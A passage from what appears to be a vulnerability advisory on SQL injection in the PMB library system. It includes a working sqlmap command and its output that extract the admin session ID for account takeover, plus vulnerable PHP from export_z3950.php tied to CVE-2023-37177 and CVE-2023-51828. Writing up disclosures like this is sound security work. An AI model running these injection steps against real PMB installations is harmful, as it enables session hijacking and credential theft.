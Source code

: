 The vulnerability can be validated using a time-based SQL injection technique as in the following screenshot where a timeout of 5 seconds is produced.

![image](https://github.com/user-attachments/assets/6459be75-5cfb-4079-af2b-e687b6f46dfe)

After confirming the existence of the vulnerability, the sessions of authenticated users were extracted using sqlmap with a time-based SQL injection technique.
**Note:** The user's credentials could also be extracted from the database.

```bash
root@ubuntu:/var/www/html/pocs# sqlmap -u "http://127.0.0.1/pmb/opac_css/index.php" --cookie "PmbOpac-LOGIN=*" -v 3 --fresh-queries --sql-query "use bibli; SELECT SESSID FROM sessions WHERE login = 'admin';" --time-sec 3
SELECT SESSID FROM sessions WHERE login = 'admin' [1]:
[*] 3788863056
```

The extracted session identifier matches the session of the user "admin" where SESSNAME is PhpMyBibli.

```sql
MariaDB [bibli]> select * from sessions;
+------------+-------+-----------+------------+------------+------------+---------------+
| SESSID     | login | IP        | SESSstart  | LastOn     | SESSNAME   | notifications |
+------------+-------+-----------+------------+------------+------------+---------------+
| 3788863056 | admin | 127.0.0.1 | 1704409090 | 1704409940 | PhpMyBibli | NULL          |
| 4358633956 |       | 127.0.0.1 | 1704409266 | 1704409428 | PmbOpac    | NULL          |
| 5627396735 |       | 127.0.0.1 | 1704409428 | 1704409462 | PmbOpac    | NULL          |
| 8651032647 |       | 127.0.0.1 | 1704409528 | 1704409731 | PmbOpac    | NULL          |
| 5730435623 |       | 127.0.0.1 | 1704409744 | 1704409900 | PmbOpac    | NULL          |
| 3517240464 |       | 127.0.0.1 | 1704409915 | 1704410060 | PmbOpac    | NULL          |
+------------+-------+-----------+------------+------------+------------+---------------+
6 rows in set (0.000 sec)
```

After modifying the session cookie it is possible to authenticate as the administrator user.

![image](https://github.com/user-attachments/assets/2e39540f-fe9b-43f0-91e9-3bd90abe5b87)

***

### CVE-2023-37177 and CVE-2023-51828: SQL Injection in /admin/convert/export_z3950.php and /admin/convert/export_z3950_new.php

**Note:** Both components (export_z3950_new.php and export_z3950.php) are vulnerable because they make use of the same function from the **/admin/convert/export.class.php** class.

When analyzing the deauthenticated component accessible via the **/admin/convert/export_z3950.php** path, it was identified that it receives the GET parameters **"command"** and **"query"**. It then assigns the value of the **query parameter** to the variable **$id** and calls the **get_next_notice** function.

```php
33 $command=$_GET["command"];
35 $query=$_GET["query"];

<..>

130 case "get_notice":
131   $id=$query;
132   $e = new export(array($id));
133   $e -> get_next_notice();
134   $toiso = new xml_unimarc();
135   $toiso->XMLtoiso2709_notice($e->notice);
136   echo "0@No errors@";
137   echo $toiso->notices_[0];
138   break;
```